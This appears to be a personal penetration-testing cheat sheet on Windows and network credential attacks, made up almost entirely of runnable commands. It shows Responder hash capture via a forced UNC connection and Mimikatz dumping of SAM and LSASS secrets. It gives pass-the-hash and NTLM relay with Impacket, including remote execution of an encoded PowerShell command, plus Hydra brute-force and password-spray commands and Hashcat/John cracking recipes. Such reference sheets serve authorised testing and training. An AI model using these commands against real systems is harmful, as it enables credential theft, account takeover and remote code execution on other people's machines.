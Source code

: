 ## Getting passwords/hashes on Windows 

### Responder  

Initialize responder on an interface
```
sudo responder -I eth0
```

Force a connection to a UNC share at the IP address where responder is listening  
```
\\192.168.1.10\share
```


### Mimikatz  

Run mimikatz as an admin  
```
PS> .\mimikatz.exe
```  

Enable SeDebugPrivilege  
```
privilege::debug
```

Obtain SYSTEM privs  
```
token::elevate
```  

Dump hashes fromthe SAM database  
```
lsadump::sam 
```  

Get passwords/hashes from multiple places  
```
sekurlsa::logonpasswords
```

## Passing the hash  

SMBClient  
```
smbclient \\\\10.10.10.42\\share -U Administrator --pw-nt-hash 9a48310ea6f5fdfee955abed1762964b
```  

Impacket-psexec (executes as SYSTEM)
```
impacket-psexec -hashes 00000000000000000000000000000000:9a48310ea6f5fdfee955abed1762964b Administrator@10.10.10.42
```  

Impacket-wmiexec (executes as user)  
```
impacket-wmiexec -hashes 00000000000000000000000000000000:9a48310ea6f5fdfee955abed1762964b Administrator@10.10.10.42
```

## Relaying a hash

Start SMB server to catch NTLMv2, and when a connection occurs, relay NTLMv2 to the target, and execute a command on the target.
```
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.10.42 -c "powershell -enc JABj..."
```

## Commands/Tools to guess passwords against network services  

### Hydra  

SSH wordlist attack 
``` 
hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43
```

RDP password spray
``` 
hydra -L username.list -p "myPassword123" rdp://10.10.10.43
```

HTTP wordlist attack
```
hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"
```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```
hashcat --help | grep -i "hashtype"
```  

#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### John-the-Ripper and Hashcat 

Adding Hashcat rules to JTR  
```
sudo nano /etc/john/john.conf

# Append to end of file
[List.Rules:myCustomRules]
c $1 $2 $3 $!
c $1 $2 $3 $@
c $1 $2 $3 $#
```

Using JTR to format hashes  
```ssh2john ../Downloads/id_rsa > ssh.hash```  
There are many hash conversion scripts  
```
$ locate *2john 
/usr/bin/1password2john
/usr/bin/7z2john
/usr/bin/DPAPImk2john
...
```

### John-the-Ripper  
```
john --wordlist=ssh.passwords --rules=myCustomRules ssh.hash
```
